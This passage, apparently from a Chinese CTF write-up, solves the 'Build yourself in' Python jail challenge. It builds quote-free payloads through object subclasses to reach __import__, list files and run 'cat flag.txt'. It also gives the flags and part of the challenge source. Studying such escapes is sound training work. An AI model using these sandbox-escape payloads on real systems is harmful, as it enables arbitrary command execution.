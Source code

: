 跑脚本可得 flag。
```flag
CHTB{3v3n_4l13n5_u53_3m0j15_t0_c0mmun1c4t3}
```

### Build yourself in
> 参考 0x41414141 CTF: https://bigpick.github.io/TodayILearned/articles/2021-01/0x414141ctf
> 引号在参考的基础上被 ban 了。使用如下方法可以拿到 __import__。

```python
print([j for j in ([i for i in (().__class__.__bases__[0].__subclasses__()[94].__init__.__globals__).values()][5].values())][6])
```

按照套路构造出 `ls` 如下。

```python
[j for j in ([i for i in (().__class__.__bases__[0].__subclasses__()[94].__init__.__globals__).values()][5].values())][6](().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[52])[17:23:5]).__dict__[[j for j in ([i for i in (().__class__.__bases__[0].__subclasses__()[94].__init__.__globals__).values()][5].values())][6](().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[52])[17:23:5]).__dir__()[45]](().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[23])[9:7:-1])
```

得到如下回显。

```plain text
build_yourself_in.py
flag.txt
```

构造出 `__import__("os").system("cat flag.txt")` 如下来读取 flag。

```python
[j for j in ([i for i in (().__class__.__bases__[0].__subclasses__()[94].__init__.__globals__).values()][5].values())][6](().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[52])[17:23:5]).__dict__[[j for j in ([i for i in (().__class__.__bases__[0].__subclasses__()[94].__init__.__globals__).values()][5].values())][6](().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[52])[17:23:5]).__dir__()[45]](().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[0])[1:5:2] + ().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[87])[43] + ().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[0])[6:7] + ().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[26])[8:10] + ().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[82])[40:42] + [j for j in ([i for i in (().__class__.__bases__[0].__subclasses__()[94].__init__.__globals__).values()][5].values())][1][-1] + ().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[87])[43] + ().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[87])[42:44])
```

```flag
CHTB{n0_j4il_c4n_h4ndl3_m3!}
```

题目源码如下。

```python
#!/usr/bin/python3.8                                
from sys import version                                                                                                                                       
def main():               
    print(f'{version}\n')     
    print('[*] Only \U0001F47D are allowed!\n')                                                         
    for _ in range(2):        
        text = input('>>> ').lower()
        if "'" in text or '"' in text:
            print('\U000026D4 No quotes are allowed! \U000026D4\n\nExiting..\n')
            break
```